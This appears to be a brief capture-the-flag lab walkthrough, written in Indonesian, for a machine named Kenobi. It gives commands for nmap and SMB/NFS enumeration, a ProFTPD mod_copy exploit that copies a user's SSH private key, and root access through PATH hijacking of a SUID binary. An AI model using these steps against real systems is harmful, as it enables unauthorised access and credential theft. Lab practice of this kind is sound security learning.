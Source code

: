 1. scanning port -> biasa aja gausah -p-, yang ke ambil cuman 7 kalau ga salah :
-> sudo nmap -sV ip --min-rate 1000 -vv
2. ada port 445 smb -> nmap -p 445 --script=scriptSmbLupaAh ip -vv
3. ketemu user2 smb -> smbclient //ip/user -> ls dalemnya
4. download aja itu log nya di machine mu -> smbget -R --no-pass smb://ip/user/file
5. ada ftp disitu, scan nfs sekarang  port 111 nfs kebuka soalnya -> nmap -p 111 --script=scriptNfsLupa ip -vv
6. searchsploit proftpd versi -> nanti nemu -> pake yang mode_copy -> SITE CPFR, SITE CPTO 
-> nc ip 21 -> SITE CPFR [dir path id rsa ada di log.txt] -> SITE CPTO /var/tmp/id_rsa
7. cd ke /tmp ->  mkdir /mnt/kenobi -> sudo mount ip:/var /mnt/kenobi -> masuk kesana -> cp /mnt/kenobi/tmp/id_rsa ke dir mu
-> chmod 600 ke id rsa -> ssh -i id_rsa kenobi@ip -> cat flag user
8. find / -type f -perm -u=s 2>/dev/null -> cari yang kayaknya gada di gtfobins -> ada /usr/bin/menu
-> coba run itu -> 1 2 3 cuman curl -I localhost, uname -r, ifconfig 
-> echo /bin/sh > curl -> chmod +x curl -> export PATH=/pathmu:$PATH -> jalanin /usr/bin/menu terus pilih 1
-> soalnya itukan curl
